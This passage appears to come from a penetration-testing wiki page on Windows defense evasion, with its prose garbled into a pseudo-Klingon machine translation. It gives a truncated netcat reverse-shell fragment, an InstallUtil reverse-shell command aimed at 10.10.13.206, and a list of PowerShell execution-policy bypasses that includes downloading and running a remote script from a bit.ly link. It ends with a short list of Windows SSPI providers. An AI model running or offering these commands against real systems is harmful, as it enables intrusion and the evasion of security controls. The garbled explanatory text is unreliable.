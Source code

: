 ```bash
rm -f /tmp/p; mknod /tmp/p p && nc <att
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```
**ReflectivePick** (https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) or **SharpPick** (https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) jatlh **Powershell** code vItlhutlh process 'ej bypass the constrained mode. **Info** laH check: [https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode](https://hunter2.gitbook.io/darthsidious/defense-evasion/bypassing-applocker-and-powershell-contstrained-language-mode).

## PS Execution Policy

**restricted.** vItlhutlh 'ej bypass policy:
```powershell
1º Just copy and paste inside the interactive PS console
2º Read en Exec
Get-Content .runme.ps1 | PowerShell.exe -noprofile -
3º Read and Exec
Get-Content .runme.ps1 | Invoke-Expression
4º Use other execution policy
PowerShell.exe -ExecutionPolicy Bypass -File .runme.ps1
5º Change users execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
6º Change execution policy for this session
Set-ExecutionPolicy Bypass -Scope Process
7º Download and execute:
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://bit.ly/1kEgbuH')"
8º Use command switch
Powershell -command "Write-Host 'My voice is my passport, verify me.'"
9º Use EncodeCommand
$command = "Write-Host 'My voice is my passport, verify me.'" $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) $encodedCommand = [Convert]::ToBase64String($bytes) powershell.exe -EncodedCommand $encodedCommand
```
More can be found [here](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)

## Security Support Provider Interface (SSPI)

**SSPI** jatlh API'e'chugh, qaStaHvIS lo'laHbe'chugh users authenticate.

**SSPI** qaStaHvIS yIqaw, cha'logh cha'logh machin'e'pu' cha'logh protocol leghlaHbe'chugh. **Kerberos** jatlh protocol'e'chugh yIqaw. **SSPI** jatlh authentication protocol leghlaHbe'chugh negotiate, 'ej 'oH cha'logh Windows machin'e'pu' DLL'e'chugh jatlh Security Support Provider (SSP) leghlaHbe'chugh, 'ej cha'logh machin'e'pu' cha'logh SSP jatlhbe'chugh yIqaw.

### Main SSPs

* **Kerberos**: jatlhbe'chugh
* %windir%\Windows\System32\kerberos.dll
* **NTLMv1** 'ej **NTLMv2**: Compatibility reasons
* %windir%\Windows\System32\msv1\_0.dll
* **Digest**: Web servers 'ej LDAP, password in form of a MD5 hash
* %windir%\Windows\System32\Wdigest.dll
* **Schannel**: SSL 'ej TLS
* %windir%\Windows\System32\Schannel.dll
* **Negotiate**: jatlhbe'chugh protocol negotiate (Kerberos 'ej NTLM, Kerberos jatlhbe'chugh default)
* %windir%\Windows\System32\lsasrv.dll
